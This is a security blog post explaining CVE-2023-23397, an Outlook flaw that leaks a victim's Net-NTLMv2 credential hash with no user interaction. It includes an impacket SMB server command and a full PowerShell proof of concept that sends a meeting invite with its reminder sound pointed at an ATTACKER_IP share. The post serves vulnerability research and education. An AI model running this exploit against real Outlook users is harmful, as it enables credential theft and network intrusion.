 ```yaml
---
layout: post
title: CVE-2023-23397 - Zero Click Net-NTLMv2 Credential Hash Leak on Outlook Client
categories: [security, cve, vulnerability]
tags: [security, cve, vulnerability, windows]
description: A comprehensive writeup that helps to understand Zero Click Net-NTLMv2 Credential Hash on Outlook Client.
---
```


### Quick Overview

Microsoft announced patch for [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397) which generally goes out usually on tuesday (Mar 14, 2023). This particular vulnerability caught my eyes due to the fact that I actively work on `Active Directory` based HackTheBox machines and this one is something similar to `Android Application Exploits` where attacker passes random url to `activities` or `services` and the outbound network connection often contains sensitive tokens attached to it. 

IIRC, I reported a similar vulnerability in 2020 which completely leaks encrypted sandbox local files including e-mail, tasks in the ProtonMail Android Client [reference](https://proton.me/blog/protonmail-security-contributors) However, it requires user interaction in the victim side of Android app.

### CVE Summary

> TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side

Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, `\\ATTACKER_IP\Share\Sounds\reminder.wav` which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.

![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)

### Quick Note on Net-NTLMv2 Credentials

If you're no stranger to Offensive security, You would definitely value the NTLMv2 Token. For others, [Here](https://admiralgaust.github.io/OSCP-notes/info/active-directory-theory.html) is the quick overview on NTLM Authentication used within Active Directory

### Exploit Strategy

1. Host a SMB Server with the help of impacket tools

   ```shell
   > attacker@kali $ smbserver.py Share sub_directory -smb2support
   ```

   ![CVE-2023-23397-Demo-Screenshot-1](/assets/media/htb-cve-2023-23397-demo-screenshot-1.png)

2. Create Outlook Appointment from Powershell (Attacker owned Windows Machine). You could potentially utilize below script to generate malcious appointment natively from powershell. [Source](https://github.com/ka7ana/CVE-2023-23397)

   ```powershell
   # PoC script for CVE-2023-23397, ported to PowerShell
   # Credits go to Dominic Chell at MDSec
   # See: https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

   $ol = New-Object -ComObject Outlook.Application
   $meeting = $ol.CreateItem('olAppointmentItem')
   $meeting.Subject = 'Time for a malicious meeting'
   $meeting.Body = 'Simple CVE-2023-23397 test script'
   $meeting.Location = 'Virtual'
   $meeting.ReminderSet = $True
   $meeting.Importance = 1
   $meeting.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
   $meeting.Recipients.Add('victim@domain.com') 

   $meeting.ReminderMinutesBeforeStart = 15
   $meeting.Start = [datetime]::Now.AddMinutes(16)
   $meeting.Duration = 30
   $meeting.ReminderPlaySound = $True
   $meeting.ReminderOverrideDefault = $True

   $meeting.ReminderSoundFile = "\\ATTACKER_IP\Share\Sounds\sample.wav" 

   $meeting.Save()
   $meeting.Send()
   ```

   ![CVE-2023-23397-Demo-Screenshot-2-Powershell](/assets/media/htb-cve-2023-23397-demo-screenshot-2-windows-powershell.png)

3. When the `Victim Outlook` Parses the appointment and reminds about the appointment, SMBv2 Handshare Negotiation is initiated between `Victim Outlook Process` and Attackers SMB Server
   
   ![CVE-2023-23397-Demo-Screenshot-4-exploit-desktop-client](/assets/media/htb-cve-2023-23397-outlook-client-demo-leak-ntlm-hash.png)
   ![CVE-2023-23397-Demo-Screenshot-3-exploit-leak](/assets/media/htb-cve-2023-23397-demo-screenshot-2-exploit.png)


### Source and Reference:

1. [Microsoft Outlook Elevation of Privilege Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)
2. [OutLook NTLM Leak Demo](https://tryhackme.com/room/outlookntlmleak)


### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
